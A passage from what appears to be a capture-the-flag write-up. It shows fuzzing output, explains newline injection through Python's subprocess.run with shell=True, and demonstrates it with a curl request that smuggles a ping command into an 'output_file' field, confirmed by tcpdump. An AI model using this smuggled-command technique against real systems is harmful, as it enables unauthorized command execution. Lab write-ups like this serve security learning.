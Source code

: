```
]                       [Status: 400, Size: 59, Words: 6, Lines: 2, Duration: 239ms]
^                       [Status: 400, Size: 59, Words: 6, Lines: 2, Duration: 242ms]
`                       [Status: 400, Size: 59, Words: 6, Lines: 2, Duration: 252ms]
{                       [Status: 400, Size: 59, Words: 6, Lines: 2, Duration: 180ms]
}                       [Status: 400, Size: 59, Words: 6, Lines: 2, Duration: 178ms]
|                       [Status: 400, Size: 59, Words: 6, Lines: 2, Duration: 186ms]
:: Progress: [95/95] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0 ::

```

#### Newline Injection

In Python, with the `subprocess.run` command, if `shell=True` is set, then a newline will work to start a new command. For example:

```

oxdf@hacky$ python
Python 3.12.3 (main, Jan 17 2025, 18:03:48) [GCC 13.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import subprocess
>>> subprocess.run("echo 'legit command'\nid", shell=True)
legit command
uid=1000(oxdf) gid=1000(oxdf) groups=1000(oxdf),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),100(users),117(lpadmin),984(docker),987(vboxsf)
CompletedProcess(args="echo 'legit command'\nid", returncode=0)

```

Both the `echo` and `id` were run there. I can try that here. As I don’t seem to be getting any output, I’ll try with a `ping`:

```

oxdf@hacky$ curl app.bigbang.htb:9090/command -d '{"command": "send_image", "output_file": "test.png\nping -c 1 10.10.14.6"}' -H "Content-Type: application/json" -H "Authorization: Bearer $token"
{"error":"Error reading image file: [Errno 2] No such file or directory: 'test.png\\nping -c 1 10.10.14.6'"}

```

On running, there’s ICMP at `tcpdump`:

```

oxdf@hacky$ sudo tcpdump -ni tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
20:49:41.327708 IP 10.10.11.52 > 10.10.14.6: ICMP echo request, id 3, seq 1, length 64
20:49:41.327728 IP 10.10.14.6 > 10.10.11.52: ICMP echo reply, id 3, seq 1, length 64

```

That’s command injection.
